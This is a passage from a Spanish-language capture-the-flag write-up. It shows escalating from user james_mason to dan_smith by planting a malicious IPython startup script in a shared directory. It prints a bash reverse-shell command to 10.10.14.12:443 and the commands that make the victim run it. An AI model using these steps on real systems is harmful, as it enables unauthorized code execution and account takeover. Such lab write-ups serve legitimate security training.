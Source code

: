 Por otro lado, la **víctima** deberá de **ir** al directorio donde se encuentra la carpeta ***profile_default*** y **ejecutar** el ***ipython***.

Entonces, si repasamos la información que obtuvimos anteriormente, tenemos que *pspy* nos mostró que ***dan_smith*** se dirigía a ***/opt/scripts_review*** y luego **ejecutaba */usr/local/bin/iypthon***. Aparte también vimos que ***james_mason*** tiene **todos los permisos** (lectura, escritura y acceso a la carpeta) sobre la carpeta ***scripts_review*** ya que pertenece al grupo *developers*. 

Por lo tanto, lo que haré sera situarme en la ruta */opt/scripts_review* y crear los archivos que figuran en el PoC. De la siguiente manera:

```python
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("ping -c 1 10.10.14.12")' > profile_default/startup/foo.py
```
En este caso, voy a hacer que la víctima me envié un ***ping*** para confirmar que el ***RCE*** se acontece. Espero un rato y lo recibo:

<img src="/photos/2022-09-30-Shared-WriteUp/pingreceived.png" alt="drawing"  /> 

Ahora que ya sabemos que todo funciona correctamente, vamos a enviarnos una ***shell***.

Lo que hare será crear en */tmp* un archivo ***rev.sh*** que se encargará de enviarme una ***shell*** cuando sea ejecutado por la **víctima**.

```python
james_mason@shared:/opt/scripts_review$ cat /tmp/rev.sh 
bash -i >& /dev/tcp/10.10.14.12/443 0>&1
```

Siguiendo los mismos pasos de antes, ejecutamos los siguiente comandos y **obtendremos una shell como *dan_smith***.

```python
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("bash /tmp/rev.sh")' > profile_default/startup/foo.py
```

<img src="/photos/2022-09-30-Shared-WriteUp/revshelldan.png" alt="drawing"  />  
